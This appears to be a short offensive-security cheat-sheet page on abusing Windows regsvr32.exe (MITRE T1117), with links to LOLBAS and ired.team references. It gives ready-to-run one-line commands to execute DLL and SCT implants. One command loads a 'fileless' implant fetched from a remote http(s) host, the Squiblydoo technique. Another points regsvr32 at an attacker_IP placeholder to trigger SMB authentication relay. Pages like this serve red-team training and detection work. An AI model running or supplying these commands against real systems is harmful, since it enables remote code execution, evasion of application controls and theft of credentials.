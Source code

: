 # Regsvr32

Search Tag(s): #T1117

Execute DLL implant.

```
C:\> regsvr32.exe /s implant.dll
```

Execute a SCT implant.

```
C:\> regsvr32.exe /s /u /i:implant.sct scrobj.dll
```

Execute a fileless implant.

```
C:\> regsvr32.exe /s /u /i:http[s]://<IP>[:PORT]/implant.sct scrobj.dll
```

Execute command to perform SMB authentication relay.

```
C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll
```

---
## References

https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/

https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo